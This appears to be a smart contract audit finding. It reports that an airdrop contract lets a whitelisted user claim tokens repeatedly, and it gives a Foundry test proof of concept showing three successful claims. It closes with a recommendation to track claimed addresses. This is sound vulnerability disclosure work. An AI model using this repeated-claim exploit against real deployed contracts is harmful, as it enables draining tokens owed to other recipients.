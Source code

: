 ## Vulnerability Details
Here is a proof of concept of a whitelisted user claiming the airdrop multiple times : 

    function testUsersCanClaimMultiple() public {
        uint256 startingBalance = token.balanceOf(collectorOne);
        console.log("Starting Balance : ", startingBalance);
        vm.deal(collectorOne, airdrop.getFee());

        vm.startPrank(collectorOne);
        airdrop.claim{ value: airdrop.getFee() }(collectorOne, amountToCollect, proof);
        vm.stopPrank();

        uint256 endingBalance1 = token.balanceOf(collectorOne);
        assertEq(endingBalance1 - startingBalance, amountToCollect);
        console.log("Ending Balance First Claim: ", endingBalance1);

        vm.deal(collectorOne, airdrop.getFee());
        vm.startPrank(collectorOne);
        airdrop.claim{ value: airdrop.getFee() }(collectorOne, amountToCollect, proof);
        vm.stopPrank();
        uint256 endingBalance2 = token.balanceOf(collectorOne);
        console.log("Ending Balance Second Claim : ", endingBalance2);
        assert(endingBalance1 < endingBalance2);

        vm.deal(collectorOne, airdrop.getFee());
        vm.startPrank(collectorOne);
        airdrop.claim{ value: airdrop.getFee() }(collectorOne, amountToCollect, proof);
        vm.stopPrank();

        uint256 endingBalance3 = token.balanceOf(collectorOne);
        console.log("Ending Balance Third Claim : ", endingBalance3);
        assert(endingBalance2 < endingBalance3);
    }

Here are the returned logs : 
Logs:
  Starting Balance :  0
  Ending Balance First Claim:  25000000
  Ending Balance Second Claim :  50000000
  Ending Balance Third Claim :  75000000
## Impact
The contract could be drained of the airdrop token.

## Tools Used
Foundry

## Recommendations
Include some mechanism to keep track of whether an address has already claimed the airdrop in the past. For reference, here is how Uniswap's MerkleDistributor.sol keeps track of previous claims. 

    // This is a packed array of booleans.
    mapping(uint256 => uint256) private claimedBitMap;
